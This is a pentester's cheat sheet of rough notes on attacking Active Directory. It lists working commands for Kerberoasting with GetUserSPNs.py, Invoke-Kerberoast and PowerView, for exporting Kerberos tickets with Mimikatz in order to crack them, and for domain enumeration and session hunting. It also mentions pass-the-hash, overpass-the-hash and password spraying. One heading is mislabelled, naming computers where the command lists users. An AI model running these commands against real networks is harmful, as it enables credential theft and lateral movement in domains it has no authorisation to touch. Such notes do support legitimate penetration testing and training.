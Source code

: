 ```yaml
---
description: Rough notes on Active Directory
---
```


# Active Directory

### Active Directory

* You can perform post exploitation activities such as Kerberoasting with a machine account. This may be important if you cannot find another path to exploitation:
  * `GetUserSPNs.py -request 'DOMAIN/MACHINE$' -dc-ip DC -hashes 'LM:NTLM'`
* Basic Enumeration:
  * `net user` will enumerate all local accounts.
  * `net user /domain` will enumerate all users in the domain.
  * `net user [USER] /domain` will query the specified users.
  * `net group /domain` will list all groups in the domain.
  * `net accounts` will enumerate the domain account policy.
    * I strongly recommend using CrackMapExec or DomainPasswordSpray to perform any type of password spraying attack.
  * Run `klist` to see if there are any tickets stored in memory.
    * This can be performed with Mimikatz by running: `kerberos::list /export`&#x20;
      * These can then be cracked by using `tgsrepcrack.py` or your favorite password cracking tool.
* PowerView is your best friend when attempting to pivot. Run the following commands to get the lay of the land and perform exploitation activities.
  * `Get-NetLoggedOn -ComputerName [COMPUTER]` will return logged on users for the specified domain.
  * `Get-NetSession -ComputerName [DC]` can be useful to determine if a domain administrator has an active logon.
  * `Get-NetUser -SPN | select serviceprincipalname` Perform Kerberoasting with PowerView.
* Pass the Hash (PtH) utilizes NTLM hashes. I won't go deep into it here, however this can be accomplished with nearly every tool at your disposal
* Overpass the Hash allows us to utilize a users NTLM hash to obtain a Kerberos TGT or service ticket.&#x20;
  * After conducting this attack we can use any tooling that relies on Kerberos authentication rather than NTLM.&#x20;
    * PsExec is a great example of a tool that would benefit from this.
* Other attacks such as Silver Tickets and and Pass the Ticket have plenty of documentation online. Consult online guides when encountering this.
* [Another great Kerberoasting resource](https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/)
*   [Invoke-Kerberoast](https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/)

    ```
    Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash
    ```

#### Get Domain Computers

* `Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

#### Get Domain Computers

* `Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

#### SPN Ticket Request

* `Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`
